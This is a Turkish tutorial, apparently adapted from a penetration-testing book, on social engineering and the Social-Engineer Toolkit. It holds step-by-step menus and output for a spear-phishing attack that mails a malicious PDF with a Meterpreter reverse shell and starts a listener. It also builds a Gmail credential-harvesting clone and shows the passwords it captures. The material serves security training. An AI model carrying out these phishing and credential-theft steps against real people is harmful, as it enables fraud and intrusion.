

### Sosyal Mühendislik

_Sosyal Mühendislik;_ en temel hack yöntemlerinden birisidir. Hackerlar karmaşık kod parçacıkları ve sistemlerin yanı sıra bazen de en basit yöntemlerden biri olan Sosyal Mühendislik’i kullanarak çok can yakmaktadır. Sosyal Mühendislik, insanları hedef almaktadır. Yani Sosyal Mühendislik’te sistemde bulunan zaafiyete vs. bakılmaz. Sosyal Mühendislik, insan ilişkilerini ve insanların zaafiyetlerini ele alarak hedef kişi, kişiler veya kurum üzerinde bilgi toplamak ve toplanan bilgiler doğrultusunda hareket etmek için kullanılır. Benim görüşüme göre ise Sosyal Mühendislik, yalan söyleme ve aldatma sanatıdır.



Sosyal Mühendislik dendiğinde film gibi senaryolar yazılabiliyor genelde. Ama bazen bu imkansız gibi gelen senaryoların yaşandığına dair haberler duyuyoruz. Hedef kişiyle dost olmak, hedef kurumdan teknik destek talebi almak, kendinizi olmayan birisi gibi göstermek en sık kullanılan yöntemlerdendir.

__Kevin Mitnick__

Aramızda Kevin Mitnick’i duymayan var mı? Bilmeyenler için tek cümleyle bir zamanlar FBI’ın 1. numaralı arananlar listesinde yer alan efsanevi hacker olarak tanımlayabilirim Kevin Mitnick. İşte Sosyal Mühendislik’in atası olarak Kevin Mitnik’i gösterebiliriz. Ve bu alanda yazmış olduğu birçok kitabı bulunmaktadır. Kevin Mitnick sızmış olduğu sistemlerin çok büyük kısmına Sosyal Mühendislik kullanarak sızmış bulunmaktadır. Sizcede şaşırtıcı değil mi?

> Sosyal Mühendislik; İnsanları istemedikleri bir şeyler yapmaya ya da gizli bilgilerini vermeye kandırma eylemidir. Wikipedia

İnsan faktörü içermeyen bir bilgisayar sistemi yoktur. Güvenlik zincirindeki en zayıf halka insandır.Sosyal mühendislikte süreç;

* Bilgi toplama,
* İlişki kurma,
* İstismar etme,
* Uygulama olarak sıralanabilir.

Sosyal mühendislikte en yaygın kullanılan tekniklerden üçü şunlardır: sahte senaryo uydurma, _oltalama (phishing)_ ve _sesle oltalama (vishing)_.

#### Social-Enginer Toolkit

TrustedSec'in Social-Enginer Toolkit (SET), açık kaynaklı Python tabanlı aracı, sosyal mühendislik saldırılarında yardımcı olmak amaçlı tasarlanmıştır. SET bizim için email oltalamada (phishing, kimlik ve finansal gibi bilgileri hedeflediğimiz mailden çalma) ve web tabanlı saldırılarda (bir sitenin klonyny oluşturma ve kullanıcın giriş bilgilerini oraya yazmasını sağlama)

SET Kali Linux'ta kurulu gelmektedir. SET'i başlatmak için terminalimizde __setoolkit__ yazıyoruz. Biz SET'i sosyal mühendislik saldırısı amaçlı kullanacağımızdan, __1__ numarayı seçiyoruz.

```ShellSession
root@kali:~# setoolkit 
--snip--
    Select from the menu:
        1) Social-Engineering Attacks
        2) Fast-Track Penetration Testing
        3) Third Party Modules
        --snip--
        99) Exit the Social-Engineer Toolkit
set> 1
```

#### Spear-Phishing Saldırıları

Sosyal Mühendislik Saldırılarını seçtiğimizde karşımıza birkaç seçenek daha çıkıyor. Şimdi spear-phishin saldırısı nasıl düzenlendiğine bakacağız. Bu bizim için zararlı bir dosya oluşturacak ve kullanıcılara mail atacak, sonrasında ise otamatik olarak Metasploit payload işlemcisini oluşturacaktır.

```ShellSession
Select from the menu:
    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack 
    --snip--
    99) Return back to the main menu. 
set> 1
```

_Spear-Phishing Attack Vectors_ için __1__ seçiyoruz. Sonrasında açılan menü ise aşağıdaki gibi:

```ShellSession
1) Perform a Mass Email Attack
2) Create a FileFormat Payload
3) Create a Social-Engineering Template
--snip--
99) Return to Main Menu
set:phishing> 1
```

(1) _Perform a Mass Email Attack_ seçeneği bize zararlı dosyamızı gireceğimiz mail adreslerine göndermeyi sağlayacak ve seçeğimiz payload için Metasploit işlemcisini oluşturacak; (2) _Create FileFormat Payload_ Metasploit payload'nı kullanarak zararlı dosya oluşturmamızı sağlar; (3) SET saldırılarımızda kullanmak üzere mail temasını oluşturmaya yardımcı olur. 

Mail atağını yapmak için __1__ seçelim.

##### Payload Seçme

Şimdi bir payload seçmemiz lazım:

```ShellSession
            ********** PAYLOADS **********
    1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP) 
--snip--
    12) Adobe util.printf() Buffer Overflow
--snip--
    20) MSCOMCTL ActiveX Buffer Overflow (ms12-027)

set:payloads> 12
```

Örnek olarak, önceki bölümde gördüğümüz PDF saldırısını tekrardan oluşturmak için __12__: _Adobe util.printf() Buffer Overflow_ seçelim. Zararlı dosyamız için payload seçmemiz istenecektir. _Windows Meterpreter Reverse_TCP_ seçelim

```ShellSession
1) Windows Reverse TCP Shell            Spawn a command shell on victim and
                                            send back to attacker
2) Windows Meterpreter Reverse_TCP      Spawn a meterpreter shell on victim 
                                            and send back to attacker
--snip--
set:payloads> 2
```

##### Ayar Seçenekleri

SET seçtiğimiz payload için bizden LHOST ve LPORT değerlerini isteyecektir. Eğer bilmiyorsak otomatik değer atanmasını isteyebiliriz. Payload dinleyicisine Kalimiz IP adresini yazıyoruz:

```ShellSession
set> IP address for the payload listener: 192.168.20.9 
set:payloads> Port to connect back on [443]:
[-] Defaulting to port 443...
[-] Generating fileformat exploit...
[*] Payload creation complete.
[*] All payloads get sent to the /usr/share/set/src/program_junk/template.pdf
directory
[-] As an added bonus, use the file-format creator in SET to create your
attachment.
```

##### Dosya İsimlendirilmesi

Sonrasında sizden oluşturacağımız zararlı dosyanın ismi istenecektir. İsmini değiştirmek için __2__ seçeneğini seçiyoruz ve _bulbsecuritysalaries.pdf_ olarak adlandırıyoruz.

```ShellSession
Right now the attachment will be imported with filename of 'template.whatever'
   Do you want to rename the file?
   example Enter the new filename: moo.pdf
1. Keep the filename, I don't care.
2. Rename the file, I want to be cool.

set:phishing> 2
set:phishing> New filename: bulbsecuritysalaries.pdf 
[*] Filename changed, moving on...
```


##### Tekli veya Toplu Email

Şimdi SET bizden tek bir mail adrese mi yoksa birçok mail adrese yani listeye mi göndereliceğini soracaktır. Şimdilik _E-Mail Attack Single Email Address_ seçerek tekli seçeneği kullanıyoruz

```ShellSession
    Social Engineer Toolkit Mass E-Mailer
    
    What do you want to do:
    
    1. E-Mail Attack Single Email Address
    2. E-Mail Attack Mass Mailer
    99. Return to main menu.

set:phishing> 1
```

##### Şablon Oluşturma

Email gönderirken SET'in şablonlarından kullanabilmekle beraber sadece bir kereliğne göndermek için düz yazı yazabilir veya istersek sonrasında da kullanmak üzere kendi şablonumuzu oluşturabiliriz. Bunun için _Create Social-Engineering Template_ seçilir. Şimdilik biz __1__ : _Pre-Defined Template_ seçerek SET'in şablonlarından bir tanesini seçiyoruz

```ShellSession
   Do you want to use a predefined template or craft a one time email
template.
   1. Pre-Defined Template
   2. One-Time Use Email Template

set:phishing> 1
[-] Available templates:
1: Strange internet usage from your computer 2: Computer Issue
3: New Update
4: How long has it been
5: WOAAAA!!!!!!!!!! This is crazy...
6: Have you seen this?
7: Dan Brown's Angels & Demons
8: Order Confirmation
9: Baby Pics
10: Status Report
set:phishing> 5
```

##### Hedefi Belirleme

Bu aşamadan sonra, bizden hedefimizdeki kişinin mail adresi ve saldırıda kullanılmak üzere mail sunucusu istenecektir. Bunun için kendi mail sunucumuzu kullanabiliriz veya aşağıda gösterdiğimiz gibi Gmail da kullanabiliriz. __1__ seçeneği seçiyoruz:

```ShellSession
set:phishing> Send email to: cansu@metasploit.com 

    1. Use a gmail Account for your email attack.
    2. Use your own server or open relay

set:phishing> 1
set:phishing> Your gmail email address: cansu@bulbsecurity.com 
set:phishing> The FROM NAME user will see: Cansu Poyraz
Email password:
set:phishing> Flag this message/s as high priority? [yes|no]: no
[!] Unable to deliver email. Printing exceptions message below, this is most likely due to an illegal attachment. If using GMAIL they inspect PDFs and is most likely getting caught.
[*] SET has finished delivering the emails
```

İstendiğinde Gmail için mail adresimizi ve şifremizi giriyoruz. SET mesajımızı göndermeye çalışacaktır, ama dikkat edersek yukarıda Gmail'in ekteki dosyayı incelediğini ve saldırımız yakaladığından mail gönderilemediğine dair mesaj alıyoruz.

Elbetde, bu sadece bir genel bakış. Kendi mail sunucumuzu ayarlayarak daha iyi sonuçlar elde edebiliriz.

##### Dinleyici Ayarı

Göndermiş olduğumuz dosyayı herhangi bir kişi tarafından açıldığında payload'mız için Metasploit dinleyicisi oluşturabiliriz. Aşağıdaki işlemleri yaptıktan sonra, bize sadece dosyanın kullanıcı tarafından açılmasını beklemek kalıyor.

```ShellSession
set:phishing> Setup a listener [yes|no]: yes
Easy phishing: Set up email templates, landing pages and listeners in Metasploit Pro's wizard -- type 'go_pro' to launch it now.

       =[ metasploit v4.8.2-2014010101 [core:4.8 api:1.0]
+ -- --=[ 1246 exploits - 678 auxiliary - 198 post
+ -- --=[ 324 payloads - 32 encoders - 8 nops

[*] Processing src/program_junk/meta_config for ERB directives.
resource (src/program_junk/meta_config)> use exploit/multi/handler
resource (src/program_junk/meta_config)> set PAYLOAD windows/meterpreter/
reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (src/program_junk/meta_config)> set LHOST 192.168.20.9
LHOST => 192.168.20.9
resource (src/program_junk/meta_config)> set LPORT 443 LPORT => 443
--snip--
resource (src/program_junk/meta_config)> exploit -j [*] Exploit running as background job.
msf exploit(handler) >
[*] Started reverse handler on 192.168.20.9:443
[*] Starting the payload handler...

```

#### Web Saldırıları
___

Şimdi ise SET ile web tabanlı saldırılar nasıl düzenlenir ona bakalım. Social-Engineering Attacks ana menüsüne geçelim ve bu kez __2__ : _Website Attack Vectors__ seçeneğini seçelim. Karşımıza web tabanlı saldırı türlerin listesi çıkacaktır.

```ShellSession
    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    --snip--
    99) Return to Main Menu

set:webattack> 3
```

Bazılarıları açıklamak gerekirse:

* _Java Applet Attack Method_ 'u önceki bölümlerde gördügümüz Java-signed applet ataklarını otomatikleştirmeye yarar 
* _Metasploit Browser Exploit Method_ 'u Metasploitin kullanıcı taraflı tarayıcı sızmalarının hepsini elle değer girmemize gerek kalmadan çalıştırmaya yarar
* _Credential Harvester Attack Method_ 'u kullanıcıyı hileye sokarak giriş bilgilerini alma amaçlı site oluşturmaya yardımcı olur
* _Tabnabbing Attack Method_ 'u açık olan tablardan bir tanesinin klonunu oluşturup, kullanıcıdan hile ile şifresini almak için kullanılır

Biz şimdi, __3__ : _Credential Harvester Attack Method__ seçelim.
Bizden ne tür bir websitesi istediğimize dair ekran çıkacak karşımıza. İstersek var olan web şablonlarından bir tanesini seçebiliriz, istersek Site Cloner ile internetten bir sitenin klonunu oluşturabiliriz veya istersek Custom import ile kendi şablonumuzu seçebiliriz. Şimdilik __1__ seçerek devam ediyoruz:

```ShellSession
    1) Web Templates
    2) Site Cloner
    3) Custom Import
--snip--
99) Return to Webattack Menu

set:webattack> 1
```

Şimdi biz kimlik bilgilerinin gönderileceği website için IP adres girmemiz gerek. Bunun için Kali Linuxumuzun yerel IP adresini girebiliriz, eğer bir kullanıcıya karşı saldırıda kullanıcaksak internette olan bir IP adres girmemiz gerekecek.

```ShellSession
IP Address for the POST back in Harvester: 192.168.20.9
```

Şimdi ise bir şablon seçmemiz lazım. Kullanıcı giriş bilgisi olarak kullanıcı adı ve şifresini gireceğinden bu türden Gmail giriş sayfası gibi şablonlar olacaktır. GMail seçtiğimizde SET bizim için sahte Gmail sayfası olan bir web sunucusunu başlatacaktır.

```ShellSession
  1. Java Required
  2. Gmail
  3. Google
  4. Facebook
  5. Twitter
  6. Yahoo

set:webattack> Select a template: 2

[*] Cloning the website: https://gmail.com
[*] This could take a little bit...
```

Klonladığımız Gmail sitesini bir ziyaret edelim ve nasıl çalıştığını görmek için bir değer girelim. Kimlik bilgilerini girdikten sonra gerçek Gmail sayfasına yönlendirme yapılacaktır. Kullanıcı için bu sadece şifresini yalnış girmiş gibi olacaktır. Bu zamanda, SET 'e baktığımızda aşağıdaki gibi bir sonuç elde etmiş olacağız:

```ShellSession
192.168.20.10 - - [10/May/2015 12:58:02] "GET / HTTP/1.1" 200 
- [*] WE GOT A HIT! Printing the output:
PARAM: ltmpl=default
--snip--
PARAM: GALX=oXwT1jDgpqg
POSSIBLE USERNAME FIELD FOUND: Email=cansu
POSSIBLE PASSWORD FIELD FOUND: Passwd=password
--snip--
PARAM: asts=
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```

Mantıken bu yöntemi kullanarak, sitelerin klonunu oluştururuz ve farkında olmayan kullanıcılardan kolaylıkla kimlik bilgilerini çalmış olacağız. Eğer de kendimiz bir şablon tasarlayacaksak, SET ile kullanabilmek için aşığıdaki gibi form oluşturmamız gerekecektir:

```html
<form name="input" action=“index.html" method="post">
Username: <input type="text" name="username"><br>
Password: <input type="password" name="pwd"><br>
<input type="submit" value="Submit"><br>
</form>
```

##### DAHA FAZLASI İÇİN

* [Sosyal Mühendislik Saldırıları](https://www.bilgiguvenligi.gov.tr/index.php?option=com_content&task=view&id=183&Itemid=6)
* [Sosyal Mühendislik Numaralarının Işe Yaramasının 5 Nedeni](http://www.trendmicro.com.tr/media/resource_lib/social/5-reasons-why-social-engineering-tricks-work-tr.pdf)
* [SOSYAL MÜHENDİSLİK SALDIRILARI](http://www.emo.org.tr/ekler/288230da37dbf3c_ek.pdf)